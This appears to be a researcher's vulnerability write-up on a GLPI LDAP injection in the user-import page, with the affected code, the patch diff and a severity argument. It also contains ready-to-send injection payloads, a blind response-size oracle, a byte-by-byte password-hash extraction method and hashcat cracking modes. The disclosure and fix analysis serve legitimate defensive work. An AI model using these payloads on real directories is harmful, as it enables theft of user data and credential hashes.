


## the same function, escaped on one path and not the other

GLPI talks to LDAP in two places that build a search filter from user input. One is the login screen: you type a username, GLPI wraps it into `(uid=<you>)` and asks the directory. The other is the admin-side "import users from an external source" page: you type search criteria, GLPI wraps them into a filter and lists matching directory entries so an operator can pull them into GLPI.

Both call the same style of filter construction. Only one escapes.

The login path, `src/AuthLDAP.php:3449`:

```php
$filter_value = ldap_escape($filter_value, '', LDAP_ESCAPE_FILTER);
```

The import path, `src/AuthLDAP.php:3820`, the same release, a few hundred lines down:

```php
$filter .= '(' . $authldap->fields[$criteria] . '=' . ($begin ? '' : '*') . $value . ($end ? '' : '*') . ')';
```

`$value` goes in raw. No `ldap_escape()`, no `LDAP_ESCAPE_FILTER`. Someone knew the filter needed escaping, wrote it correctly for authentication, and the import feature never got the same treatment. That asymmetry is the entire vulnerability. LDAP filters are a little query language of their own, `(&(a=x)(b=y))`, `*` wildcards, `!` negation, extensible matching rules by OID, and an unescaped `(`, `)`, `*`, or `\` lets you rewrite the query instead of just filling in a value.

## who can reach it: Hotliner, a helpdesk role

The controller `front/ldap.import.php` gates on one right:

```php
Session::checkRight("user", User::IMPORTEXTAUTHUSERS);   // right value 1024
```

Five of GLPI's eight default profiles carry it, and the lowest is not an admin:

| Profile | Rights bitmask | Note |
|---|---|---|
| **Hotliner** | 1025 | read (1) + import (1024), nothing else |
| Technician | 1055 | |
| Supervisor | 1055 | |
| Admin | 7199 | |
| Super-Admin | 15519 | |

Hotliner is a first-line helpdesk role. It exists to open and route tickets. It should not be able to walk your directory and lift password hashes out of it, and the CVSS argument later rests on exactly that distance between the role and the reach. I confirmed the injection works from a Hotliner account (bitmask 1025) with the same oracle behavior as higher roles.

## the data flow, source to ldap_search



`buildLdapFilter()` assembles the filter, stashes it in `$_REQUEST['ldap_filter']`, and the search path reads it back out and hands it to `ldap_search()`. Nothing between source and sink revisits the escaping question.

## two vectors, split by version

There are two injectable parameters, and which one you use depends on the branch.

**`criterias`, every version from 0.85 to 11.0.5.** The search criteria values are concatenated in at line 3820. Break out of the intended `(field=value)` and append your own clause:

```
POST /front/ldap.import.php
criterias[login_field]=)(mail=a*)(uid=target_user&authldaps_id=2&action=show&search=1&mode=0
```

The `)` closes GLPI's leaf, `(mail=a*)` is yours, `(uid=target_user` re-opens so the trailing structure stays balanced.

**`entity_filter`, 11.0.x only.** In 11.0 the entity's LDAP filter is read straight from the request at line 3833:

```php
// src/AuthLDAP.php:3833
return "(&" . ($_REQUEST['entity_filter'] ?? '') . " $filter $ldap_condition)";
```

so you inject a whole clause into the outer `(&...)` without touching the criteria at all:

```
POST /front/ldap.import.php
entity_filter=(mail=a*)&criterias[login_field]=^target_user$&authldaps_id=2&action=show&search=1&mode=0
```

One precondition on the `entity_filter` vector: your request value only survives if the selected entity has no configured LDAP filter of its own. `manageRequestValues()` overwrites it with the entity's filter only when one is set:

```php
// src/AuthLDAP.php (11.0.5)
if ((string) $entity->fields['entity_ldapfilter'] !== '') {
    $_REQUEST['entity_filter'] = $entity->fields['entity_ldapfilter'];
}
```

An empty `entity_ldapfilter` is the default, so the request value flows through untouched to line 3833 on a normal install. This is exactly what the 11.0.8 fix confirms: it `unset()`s the request value before this block ever runs. When the entity does carry a configured filter, fall back to the `criterias` vector, which is version-agnostic and has no such gate.

On 10.0.x and earlier the entity filter comes from the database, not the request, so only the `criterias` vector applies there. Both PoCs auto-discover the LDAP server id by probing `authldaps_id` 1 through 20 and checking which one renders the criteria form, so all the attacker supplies is a URL and helpdesk credentials.

## what the filter actually becomes

`buildLdapFilter()` loops the criteria into leaves and returns `"(&" . entity_filter . " $filter $ldap_condition)"`, so it helps to see the string your payload produces. Take the `criterias` vector, where the login field maps to `uid` and both wildcard flags default on:

```
criterias[login_field] = )(mail=a*)(uid=target_user

# the leaf builder emits '(' . uid . '=' . '*' . <value> . '*' . ')':
(uid=*)(mail=a*)(uid=target_user*)

# wrapped by the outer AND:
(&  (uid=*)(mail=a*)(uid=target_user*)  <condition> )
```

`(uid=*)` matches every entry, `(mail=a*)` is the question you are asking, `(uid=target_user*)` pins the answer to one person. The `entity_filter` vector is cleaner because it drops straight into the outer AND, and the `^target_user$` criteria anchors turn off both wildcards so the pin is exact:

```
(&  (mail=a*)  (uid=target_user)  <condition> )
```

Either way you end up with a three-part AND you fully control: a match-all, an oracle leaf, and a pin. That structure is what makes the response size a clean yes/no.

## the oracle is the response size

There is no data echoed back to read, this is blind. The signal is how big the response is. A filter that matches your target user renders the full result row; one that does not renders a shorter "no results" page. On the lab that difference is stable and large:

- TRUE (attribute starts with the tested prefix): response ~224 KB
- FALSE: response ~211 KB
- delta: ~13 KB

Pin the target with an exact match (`^target_user$`), then ask a yes/no question about one of its attributes and watch the size:

```
entity_filter=(mail=a*)   -> 224 KB   this user's mail starts with 'a'
entity_filter=(mail=b*)   -> 211 KB   it does not
```

Extend the prefix one character at a time and each character falls out. String attributes, `mail`, `cn`, `sn`, `givenName`, `telephoneNumber`, `employeeNumber`, come out by straight substring walk.

## enumerating the whole directory first

Before extracting anything you need the list of who to extract, and the injection gives you that too, past whatever entity scope was configured. The cheap path is a match-all: inject `(uid=*)` (or `(objectClass=top)`) and the import screen renders every directory entry, whose usernames the PoC scrapes out of the `data-id` attributes in the result table. One request, the full roster, and the injected match-all overrides the entity's own LDAP filter so it crosses organizational boundaries in multi-entity setups.

When the response is paginated or the listing is suppressed, the same size oracle enumerates blind. Bucket by first character (`^a`, `^b`, ... which leading letters have entries), then build each username out one character at a time, excluding the ones already found so the search keeps narrowing:

```
(!(uid=alice))(!(uid=bob))(objectClass=top)   with criteria ^ab...
```

Each `(!(uid=X))` removes a known name, so the next walk down the `^ab` bucket surfaces the next entry instead of re-finding the first. Slower than the match-all, but it works even when the UI refuses to hand you the list.

## userPassword, byte by byte, with an ordering rule

Substring matching does not work on `userPassword`, directory servers refuse it. The way in is the **octetStringOrderingMatch** extensible rule, OID **2.5.13.18**, which every compliant server implements and which answers a "is the stored value less-than-or-equal to this?" comparison. That is a comparator, and a comparator is a binary search:

```
entity_filter=(userPassword:2.5.13.18:=\7c)
```

The extraction starts with a sentinel that must always be true: `(userPassword:2.5.13.18:=\ff)`. Since `0xFF` is the largest byte, any stored value orders at or below it, so a match confirms two things at once, the attribute is present and the server honors the rule. If that sentinel comes back false, there is no hash to chase and the PoC moves on.

Then each byte is a binary search on `[0x00, 0xFF]`. Fix the bytes recovered so far as a hex prefix, assert `prefix + \mid`, and read the oracle: a match means the real byte is at or below `mid`, so pull the ceiling down; a miss means it is above, so raise the floor. The loop converges on the smallest asserted byte that still matches, and the true byte is that boundary minus one. About 8 requests fix one byte, roughly 320 for a full SSHA hash. It works against SSHA, SHA, SMD5, whatever the directory stores, because the ordering rule compares the raw octets and never cares what the bytes mean.



Run against a lab OpenLDAP with three seeded users, authenticated as a Technician, every hash came back byte-for-byte correct:

| User | Attribute | Extracted value |
|---|---|---|
| sectest1 | mail | alpha.sec@testcorp.com |
| sectest1 | userPassword | {SSHA}wJgpdWcuwzs/Sb8Yq1RaeP/Q7MBXMZU2 |
| sectest2 | userPassword | {SSHA}+ubtcP7qUbm3XAqpM5MYjTFTd9y5rnpY |
| sectest3 | mail | charlie.admin@internal.corp |
| sectest3 | userPassword | {SSHA}LbpxCs1CIBU4krxE56uX2mOwMis76Yyf |

<!-- capture: PoC terminal extracting the three SSHA hashes with the query counter, save as assets/img/posts/cve-2026-49469-poc-hashes.png -->

An `{SSHA}` hash feeds straight into `hashcat -m 111`, `{SHA}` into `-m 100`. Whatever cracks is a valid credential not just for GLPI but for every service bound to the same directory, which in most shops is the whole estate. And because the injected `entity_filter` overrides the entity's configured scope, the walk crosses organizational boundaries even in multi-entity GLPI deployments.

## the control, because a size oracle lies easily

A response-size oracle is exactly the kind of signal that produces confident nonsense if you do not check it, so the PoC refuses to run until it proves the oracle is real. It calibrates against a user that does not exist:

```python
t = blind(fake_user, "(objectClass=top)")    # a filter that always matches
f = blind(fake_user, "(objectClass=ZZZZZ)")  # one that never does
if (t - f) > 100:
    abort("false positive: the oracle answers on a user that isn't there")
```

If a nonexistent user shows a delta, the size difference is being driven by something other than the directory read, pagination, a timestamp, a CSRF token, and every "extracted" byte after that is fiction. On a working target the fake user shows a flat delta and the real user shows ~13 KB. The bit only counts because it is zero where it must be zero. Same discipline on enumeration: usernames are only accepted when an exact-match clause outweighs a guaranteed-miss baseline by a fixed margin.

## the other door: group import

The user import page is not the only unescaped filter builder. `front/ldap.group.import.php` feeds `$_REQUEST["ldap_group_filter"]` into `getGroupsFromLDAP()`, which drops it into `ldap_search()` at `src/AuthLDAP.php:2459` and `:2482` with the same missing `ldap_escape()`. Same bug class, same blind-oracle extraction, different door.

The reason it is a footnote and not a headline is the gate. That controller checks a higher right:

```php
// front/ldap.group.import.php
Session::checkRight('user', User::UPDATEAUTHENT);   // 4096, Admin and Super-Admin only
```

`UPDATEAUTHENT` (4096) lives with Admin-tier profiles, not with Hotliner, so this second injection needs an account that already holds significant authority over authentication config. It still deserved the same fix, but it does not change the severity story, because the interesting reach here is the one a first-line helpdesk role can hit, and that is the user-import path.

## severity

I scored it **7.7**, `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`.

- **S:C**, scope changed. The vulnerable component is GLPI, but the data compromised lives in the LDAP directory, a separate system under a different security authority. GLPI is being used as a lens to read something it does not own.
- **PR:L**, because Hotliner, a non-administrative helpdesk role, is enough.
- **C:H / I:N / A:N**, a pure confidentiality break: directory attributes and password hashes. The integrity consequences (cracking a hash, reusing it elsewhere) are downstream of this bug, not part of its own scope.

GLPI's advisory scored it lower, **4.6** on CVSS 4.0, largely by treating it as `PR:H`. That is the one metric worth arguing: the right that unlocks the sink belongs to Hotliner, not to an administrator, so the privilege bar is a first-line support account, not a privileged one. For calibration, GLPI's own comparable authenticated LDAP-injection history sits higher than 4.6.

Affected: **>= 0.85, <= 11.0.5** for the `criterias` vector; the `entity_filter` vector is **11.0.x** only. The missing `ldap_escape()` has been in `buildLdapFilter()` since at least 0.85, which is why the range runs back that far. Fixed in **10.0.26** and **11.0.8**, released 2026-06-24.

## the fix, from the patch

11.0.8 fixes both vectors, and the diff reads like the escaping that should have been there all along.

The `criterias` value now gets the same `ldap_escape()` the login path always had, at line 3829:

```diff
-$filter .= '(' . $authldap->fields[$criteria] . '=' . ($begin ? '' : '*') . $value . ($end ? '' : '*') . ')';
+$filter .= '(' . $authldap->fields[$criteria] . '=' . ($begin ? '' : '*') . ldap_escape($value, '', LDAP_ESCAPE_FILTER) . ($end ? '' : '*') . ')';
```

The `entity_filter` vector is closed by refusing to take it from the request at all. Early in `manageRequestValues()`, at line 3631:

```php
unset($_REQUEST['entity_filter']); // Not meant to be set from request; this is calculated later
```

and then it is recomputed from the entity's own configured filter (`$entity->fields['entity_ldapfilter']`) further down, so the value that reaches line 3842 is server-derived, not attacker-derived. The right call: an entity's LDAP scope is server state, and it never should have been readable from the request in the first place.

Both are the correct fix. `ldap_escape()` on the value neutralizes the metacharacters that let a value become structure, and sourcing `entity_filter` from config removes the second door entirely. There is a matching escape recommended for the group-import path (`getGroupsFromLDAP()`), a related sink that needs the `UPDATEAUTHENT` right and so sits behind a higher privilege bar.

## disclosure status

The patch is public: 10.0.26 and 11.0.8 shipped on 2026-06-24, so anyone can diff the two lines above and the fix is available to deploy today. The GitHub advisory (GHSA-3cgm-rj32-hfwf) that carries CVE-2026-49469 was still in draft at the time of writing, and the CVE record had not yet propagated to NVD. Upgrade first; the advisory text will catch up. The CVE is a merge of several independent reports of the same class, credited to KylianLab, q1uf3ng, UncleJ4ck, Shakun8, bytejmp, and 7h30th3r0n3.

## the lesson

When one code path escapes an input and a sibling path does not, the escaped one is not evidence of safety, it is evidence someone knew the danger and the coverage has a hole. `ldap_escape()` on the login filter proved the maintainers understood LDAP injection years ago. The import filter is the same input class reaching the same sink, and it went unescaped the whole time because it was a different feature written on a different day. Grep the codebase for the escape call, then grep for every other place the same sink is fed, and the gap is the finding.

## references

- [GHSA-3cgm-rj32-hfwf](https://github.com/glpi-project/glpi/security/advisories/GHSA-3cgm-rj32-hfwf)
- [GLPI 10.0.26 / 11.0.8 release](https://github.com/glpi-project/glpi/releases/tag/11.0.8)
- [CWE-90: LDAP Injection](https://cwe.mitre.org/data/definitions/90.html)
- [OWASP: Testing for LDAP Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection)
- [RFC 4515: LDAP String Representation of Search Filters](https://www.rfc-editor.org/rfc/rfc4515)
- [PHP ldap_escape()](https://www.php.net/manual/en/function.ldap-escape.php)
